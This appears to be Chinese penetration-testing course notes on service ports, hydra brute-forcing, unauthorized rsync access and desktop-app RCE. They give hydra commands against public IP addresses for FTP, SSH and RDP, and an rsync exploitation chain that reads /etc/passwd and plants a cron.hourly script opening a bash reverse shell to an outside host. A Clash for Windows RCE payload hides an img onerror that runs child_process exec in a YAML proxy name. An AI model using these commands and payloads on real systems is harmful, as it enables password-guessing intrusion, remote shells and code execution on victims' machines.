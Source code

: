 
---

QQ&WPS等RCE&hydra口令猜解&未授权检测

# 端口协议

![[0.jpg]]

![[1 4.jpg]]

![[2 4.jpg]]

![[3 2.jpg]]

![[4 1.jpg]]

![[5 1.jpg]]

![[6.jpg]]

![[7.jpg]]

口令爆破&未授权

## -弱口令爆破

https://github.com/vanhauser-thc/thc-hydra
hydra是一个自动化的爆破工具，暴力破解弱密码，是一个支持众多协议的爆破工具，已经集成到KaliLinux中，直接在终端打开即可

```
-s PORT 可通过这个参数指定非默认端口。

-l LOGIN 指定破解的用户，对特定用户破解。

-L FILE 指定用户名字典。

-p PASS 小写，指定密码破解，少用，一般是采用密码字典。

-P FILE 大写，指定密码字典。

-e ns 可选选项，n：空密码试探，s：使用指定用户和密码试探。

-C FILE 使用冒号分割格式，例如“登录名:密码”来代替-L/-P参数。

-M FILE 指定目标列表文件一行一条。

-o FILE 指定结果输出文件。

-f 在使用-M参数以后，找到第一对登录名或者密码的时候中止破解。

-t TASKS 同时运行的线程数，默认为16。

-w TIME 设置最大超时的时间，单位秒，默认是30s。

-v / -V 显示详细过程。

server 目标ip

service 指定服务名，支持的服务和协议：telnet ftp pop3[-ntlm] imap[-ntlm] smb smbnt http-{head|get} http-{get|post}-form http-proxy cisco cisco-enable vnc ldap2 ldap3 mssql mysql oracle-listener postgres nntp socks5 rexec rlogin pcnfs snmp rsh cvs svn icq sapr3 ssh smtp-auth[-ntlm] pcanywhere teamspeak sip vmauthd firebird ncp afp等等。
```

```
例子：

FTP：文件传输协议

RDP：Windows远程桌面协议

SSH：Linux安全外壳协议

hydra -L test -P 10top1K.txt 47.110.53.159 ftp -V

hydra -l root -P 10top1K.txt 47.110.53.159 ssh -V

hydra -l administrator -P 10top1K.txt 47.110.53.159 rdp -V
```

## 未授权案例：

rsync是Linux下一款数据备份工具，支持通过rsync协议、ssh协议进行远程文件传输。其中rsync协议默认监听873端口，如果目标开启了rsync服务，并且没有配置ACL或访问密码，我们将可以读写目标服务器文件

```
判断：rsync rsync://120.27.220.186:57830/
```

```
利用：

-读取文件：rsync rsync://120.27.220.186:57830/src/

-下载文件：rsync rsync://120.27.220.186:57830/src/etc/passwd ./

-上传文件：rsync -av passwd rsync://120.27.220.186:57830/src/tmp/passwd
```

```
反弹shell：写入计划任务

1、获取信息：

rsync rsync://120.27.220.186:57830/src/etc/crontab /root/cron.txt

2.创建文件

touch shell

#!/bin/bash

/bin/bash -i >& /dev/tcp/47.94.236.117/5566 0>&1

chmod +x shell

3、上传文件

rsync -av shell rsync://120.27.220.186:57830/src/etc/cron.hourly

4、等待接受反弹
```

# 桌面应用

QQ&WPS&Clash

-QQ RCE 漏洞复现
不行了

-WPS RCE 漏洞复现
第80天复现讲过，鸡肋


-Clash RCE 漏洞复现
暂时只弹了计算器
```
Windows：Clash.for.Windows 版别 <= v 0.19.8

Mac：Clash.for.Windows.app版别 <= v0.19.81
```
利用
```
1、本地创立一个.yaml的文件

port: 7890

socks-port: 7891

allow-lan: true

mode: Rule

log-level: info

external-controller: :9090

proxies:

- name: a<img/src="1"/onerror=eval(`require("child_process").exec("calc.exe");`);>

type: socks5

server: 127.0.0.1

port: "17938"

skip-cert-verify: true

- name: abc

type: socks5

server: 127.0.0.1

port: "8088"

skip-cert-verify: true

proxy-groups:

-

name: <img/src="1"/onerror=eval(`require("child_process").exec("calc.exe");`);>

type: select

proxies:

- a<img/src="1"/onerror=eval(`require("child_process").exec("calc.exe");`);>

2、Profiles挑选导入.yaml

3、切换节点之后成功调用代码执行
```
